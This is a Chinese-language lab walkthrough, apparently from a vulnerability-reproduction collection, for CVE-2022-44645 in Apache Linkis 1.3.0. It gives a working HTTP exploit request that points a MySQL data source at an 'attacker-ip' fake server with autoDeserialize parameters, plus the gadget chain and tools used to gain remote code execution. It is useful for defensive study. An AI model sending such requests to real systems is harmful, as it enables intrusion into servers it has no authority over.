



# Apache Linkis MySQL JDBC 数据源反序列化远程代码执行漏洞（CVE-2022-44645）

Apache Linkis 是一款计算中间件，作为上层应用与 Spark、Hive、Flink、JDBC 等底层计算引擎之间的统一桥梁。

在 1.3.0 及之前版本中，Apache Linkis 的 DataSource Manager 模块在已认证用户创建或测试 MySQL 数据源时，未对 JDBC URL 参数进行有效校验。攻击者可以构造一个包含 `autoDeserialize=true`、`statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor` 等恶意参数的 JDBC URL，并将连接指向攻击者控制的 MySQL 服务器，诱使 MySQL Connector/J驱动反序列化由恶意服务端返回的数据。结合Linkis classpath 中已有的反序列化利用链（如 Commons-Beanutils 1.9.4），最终可在 `linkis-ps-publicservice` 进程中实现远程代码执行。

参考链接：

- <https://lists.apache.org/thread/k0x6dwhfqvtzc5z4r24jfs6gm8z9oh3l>
- <https://github.com/advisories/GHSA-h6w8-52mq-4qxc>
- <https://www.numencyber.com/numen-vulnerability-researcher-discovers-apache-linkis-deserialization-vulnerability/>
- <https://github.com/apache/linkis/pull/4024>

## 环境搭建

执行如下命令启动存在漏洞的 Apache Linkis 1.3.0 环境，包含其 MySQL 元数据库：

```
docker compose up -d
```

Linkis 服务由约七个微服务组成，完全启动需要 1 到 2 分钟。启动完成后，API 网关地址为 `http://your-ip:9001`，Eureka 注册中心地址为 `http://your-ip:20303`，默认账号密码为 `hadoop / hadoop`。

可以通过登录接口确认服务已就绪：

```
POST /api/rest_j/v1/user/login HTTP/1.1
Host: your-ip:9001
Content-Type: application/json

{"userName":"hadoop","password":"hadoop"}
```

成功响应中会包含 `"login successful"` 字样，并通过 `Set-Cookie: linkis_user_session_ticket_id_v1=...` 返回会话 Cookie，后续请求需携带该 Cookie。

## 漏洞复现

复现前需要先准备一个能响应 MySQL 握手与查询请求、并在响应中下发 Java 反序列化 Payload 的恶意 MySQL 服务端。常见的开源工具有 [java-chains](https://github.com/vulhub/java-chains)（内置"Fake MySQL"模块）、[4ra1n/mysql-fake-server](https://github.com/4ra1n/mysql-fake-server) 和 [fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)。将该恶意服务监听在 `3308` 端口（或任意可被 Linkis 容器访问的端口），并基于 Linkis classpath 中自带的 `Commons-Beanutils 1.9.4` 链生成反序列化 Payload。下图展示了在 java-chains 中构造 `FakeMySQLPayload → CommonsBeanutils1 → TemplatesImpl → BytecodeConvert → Exec` 这条链（命令为 `touch /tmp/success`），生成结果中会返回一个短的字母数字 MySQL 用户名 Token（例如 `dd14fff`），恶意服务端会用这个 Token 来匹配后续 JDBC 客户端连接。



接下来，先登录 Linkis 获取会话 Cookie，然后向数据源管理的 `op/connect/json` 接口发送一次请求。data-source-manager 只识别 `host`、`port`、`username`、`password`、`params` 这 5 个键，因此恶意的 JDBC URL 参数需要以 JSON 字符串的形式放入 `connectParams.params` 字段：

```
POST /api/rest_j/v1/data-source-manager/op/connect/json HTTP/1.1
Host: your-ip:9001
Content-Type: application/json;charset=UTF-8
Cookie: linkis_user_session_ticket_id_v1=...

{
  "dataSourceName": "evil",
  "dataSourceTypeId": 1,
  "createSystem": "Linkis",
  "connectParams": {
    "host": "attacker-ip",
    "port": "3308",
    "username": "dd14fff",
    "password": "x",
    "params": "{\"autoDeserialize\":\"true\",\"statementInterceptors\":\"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor\",\"useSSL\":\"false\",\"maxAllowedPacket\":\"16777216\"}"
  }
}
```

Linkis 收到该请求后，会拼接出 `jdbc:mysql://attacker-ip:3308/?autoDeserialize=true&statementInterceptors=...&maxAllowedPacket=16777216` 形式的 JDBC URL，并交由 `linkis-ps-publicservice` 进程中的 MySQL Connector/J驱动建立连接。驱动连上恶意服务器并完成连接初始化的几次内部查询，Statement Interceptor 会经过 `ServerStatusDiffInterceptor`，恶意服务端返回的 BLOB 列因 `autoDeserialize=true` 被 `ObjectInputStream.readObject` 解析。Commons-Beanutils 利用链最终在 Linkis 容器内执行攻击者指定的命令（例如 `touch /tmp/success`）。

HTTP 响应会返回 `Connection Failed`，这是符合预期的：反序列化发生在 JDBC 握手阶段，利用链早在 Linkis 判定测试连接结果之前就已经执行完毕。



API 响应返回后，进入 `web` 容器验证命令是否执行：

```
docker compose exec web ls -la /tmp/success
```

如果文件存在，说明攻击者已经以 `linkis-ps-publicservice` 所在的 `hadoop` 用户身份在容器内执行了任意命令。



Linkis 1.3.1 引入的修复在 `SecurityUtils#checkJdbcConnParams` 中加入了 JDBC URL 参数黑名单，禁止使用 `autoDeserialize`、`allowLoadLocalInfile`、`allowLocalInfile`、`allowUrlInLocalInfile` 和 `#` 等参数，从而阻断该利用路径；后续版本针对这一黑名单的多次绕过（CVE-2023-27987、CVE-2023-29215、CVE-2023-46801）又持续做了加固。
